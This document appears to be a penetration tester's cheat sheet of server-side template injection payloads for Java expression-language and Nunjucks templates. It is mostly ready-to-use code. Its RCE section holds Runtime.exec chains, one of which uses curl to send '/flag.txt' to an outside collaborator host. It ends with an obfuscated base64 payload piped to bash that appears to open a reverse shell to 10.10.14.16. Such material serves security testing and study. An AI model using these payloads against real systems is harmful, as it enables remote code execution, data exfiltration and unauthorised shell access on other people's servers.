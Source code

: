 **Server-Side Template Injection**


payloads start with * # or $
https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/ssti-server-side-template-injection/el-expression-language.md


# Detection 
```
#Basic string operations examples
{"a".toString()}
[a]

{"dfd".replace("d","x")}
[xfx]

#Access to the String class
{"".getClass()}
[class java.lang.String]

#Access ro the String class bypassing "getClass"
#{""["class"]}

#Access to arbitrary class
{"".getClass().forName("java.util.Date")}
[class java.util.Date]

#List methods of a class
{"".getClass().forName("java.util.Date").getMethods()[0].toString()}
[public boolean java.util.Date.equals(java.lang.Object)]


{{7*7}}

${7*7}

<%= 7*7 %>

${{7*7}}

#{7*7}

*{7*7}

```




# RCE
```
#Check the method getRuntime is there
{"".getClass().forName("java.lang.Runtime").getMethods()[6].toString()}
[public static java.lang.Runtime java.lang.Runtime.getRuntime()]

#Execute command (you won't see the command output in the console)
{"".getClass().forName("java.lang.Runtime").getRuntime().exec("curl http://127.0.0.1:8000")}
[Process[pid=10892, exitValue=0]]

#Execute command bypassing "getClass"
#{""["class"].forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec("curl <instance>.burpcollaborator.net")}

# With HTMl entities injection inside the template
<a th:href="${''.getClass().forName('java.lang.Runtime').getRuntime().exec('curl -d @/flag.txt burpcollab.com')}" th:title='pepito'>
```


# Errors
## require error 
Template Engines are often Sandboxed, meaning their code runs in a restricted code space so that in the event of malicious code being run, it will be very hard to load modules that can run system commands. If we cannot directly use require to load such modules, we will have to find a different way
### Globals
In computer programming "Globals" are variables that are globally accessible throughout the program. In Node.js this works similarly, with Global objects being available in all loaded modules


# Node.js nunchucks template

https://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine

```
{“email”:”{{range.constructor(\”return global.process.mainModule.require(‘child_process’).execSync(‘echo YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xNi80NDMgMD4mMSIK | base64 -d | bash’)\”)()}}”}
```
